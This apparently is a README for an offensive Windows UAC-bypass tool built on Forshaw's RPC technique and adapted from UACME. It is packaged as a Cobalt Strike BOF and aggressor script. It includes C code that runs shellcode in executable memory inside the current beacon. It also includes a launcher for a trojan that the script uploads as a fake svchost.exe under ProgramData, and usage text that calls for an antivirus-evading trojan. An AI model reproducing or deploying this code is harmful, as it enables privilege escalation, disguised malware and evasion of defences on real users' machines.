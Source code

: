 # UAC Bypass 

This amazing trick by James Forshaw was released in 2019 [Project Zero - Calling Local Windows RPC Servers from .NET](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html) allow you to bypass UAC using only 2 RPC requests instead of DLL hijack. Basically rewritten from [hfiref0x/UACME](https://github.com/hfiref0x/UACME).

Tested works well on Windows 11 :)



## BOF

编写BOF在当前进程中执行Shellcode，没有spawn和inject高危操作产生，但会牺牲当前的beacon（注）。

```C
datap   parser;
LPBYTE  lpShellcodeBuffer = NULL;

DWORD   dwShellcodeBufferSize = 0;
LPVOID  pMem;
SIZE_T  bytesWritten = 0;
DWORD  dwThreadId = 0;

BeaconDataParse(&parser, buff, len);
lpShellcodeBuffer = (LPBYTE)BeaconDataExtract(&parser, (int*)(&dwShellcodeBufferSize));
pMem = VirtualAlloc(0, dwShellcodeBufferSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(GetCurrentProcess(), pMem, lpShellcodeBuffer, dwShellcodeBufferSize, &bytesWritten);
((void(*)())pMem)();
```



## RpcALPC

默认执行`C:\ProgramData\USOShared\svchost.exe`该程序，编写cna的时候会自动上传木马到这个文件，并重命名为`svchost.exe`。

```C
int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    if (FAILED(CoInitializeEx(NULL, COINIT_APARTMENTTHREADED))) return -1;
    wchar_t buff[256] = L"C:\\ProgramData\\USOShared\\svchost.exe";
    //MultiByteToWideChar(CP_ACP, 0, lpCmdLine, -1, buff, sizeof(buff) / sizeof(wchar_t));
    ucmDebugObjectMethod(buff);
}
```



## Usage

准备一个免杀木马，然后选择对应选项。

![image-20231122234837320](./assets/image-20231122234837320.png)

![image-20231122234858214](./assets/image-20231122234858214.png)

![image-20231122235225464](./assets/image-20231122235225464.png)
